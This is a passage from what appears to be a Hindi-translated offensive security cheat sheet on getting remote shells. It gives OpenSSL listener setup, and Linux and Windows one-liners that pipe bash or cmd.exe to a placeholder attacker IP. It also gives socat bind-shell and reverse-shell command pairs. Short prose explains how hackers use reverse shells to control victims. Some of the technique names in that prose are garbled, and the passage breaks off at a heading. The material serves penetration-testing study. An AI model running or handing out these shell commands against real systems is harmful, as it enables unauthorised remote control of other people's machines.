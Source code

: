 ## OpenSSL

आक्रमक (काली)
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response
```
शिकारी
```bash
#Linux
openssl s_client -quiet -connect <ATTACKER_IP>:<PORT1>|/bin/bash|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>

#Windows
openssl.exe s_client -quiet -connect <ATTACKER_IP>:<PORT1>|cmd.exe|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>
```
## **Socat**

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

### बाइंड शेल
```bash
victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:1337
```
### रिवर्स शेल

एक रिवर्स शेल एक हैकर को एक दूसरे सिस्टम में दूरस्थ रूप से एक कमांड इंटरप्रिटर का उपयोग करने की अनुमति देता है। यह एक प्रकार का शेल बैकडोर होता है जो एक नियंत्रित सर्वर के साथ संचार स्थापित करता है। रिवर्स शेल का उपयोग करके, हैकर दूसरे सिस्टम में दूरस्थ रूप से कमांड चला सकता है, फ़ाइलें अपलोड और डाउनलोड कर सकता है, प्रोसेस को नियंत्रित कर सकता है, और अन्य नेटवर्क कार्य कर सकता है।

एक रिवर्स शेल स्थापित करने के लिए, हैकर को एक शिकार के सिस्टम में एक शेल स्क्रिप्ट या एक एकल लाइन कमांड भेजनी होती है। जब शिकार इसे चलाता है, शेल स्क्रिप्ट या एकल लाइन कमांड एक नियंत्रित सर्वर के साथ संपर्क स्थापित करता है और एक रिवर्स शेल सत्र शुरू करता है। इसके बाद, हैकर दूसरे सिस्टम में दूरस्थ रूप से कमांड चला सकता है और उसके लिए नियंत्रण प्राप्त कर सकता है।

एक रिवर्स शेल स्थापित करने के लिए, कई तकनीकें उपयोग की जा सकती हैं, जैसे कि नेटकैट, नेटकैटएस, नेटकैटएसएल, नेटकैटएसएसएच, पायथन, और मेटास्प्लोइट। ये तकनीकें नियंत्रित सर्वर के साथ संपर्क स्थापित करने के लिए विभिन्न प्रोटोकॉल और तकनीकों का उपयोग करती हैं।

एक रिवर्स शेल का उपयोग करने के लिए, हैकर को नियंत्रित सर्वर को स्थापित करने के लिए एक वेबसाइट या एक अन्य संचार साधन की आवश्यकता होती है। इसके बाद, हैकर शिकार के सिस्टम में रिवर्स शेल स्थापित करने के लिए एक शेल स्क्रिप्ट या एक एकल लाइन कमांड भेजता है। शिकार इसे चलाता है और नियंत्रित सर्वर के साथ संपर्क स्थापित करता है, जिससे रिवर्स शेल सत्र शुरू होता है। इसके बाद, हैकर दूसरे सिस्टम में दूरस्थ रूप से कमांड चला सकता है और उसके लिए नियंत्रण प्राप्त कर सकता है।
```bash
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```
## आव्क
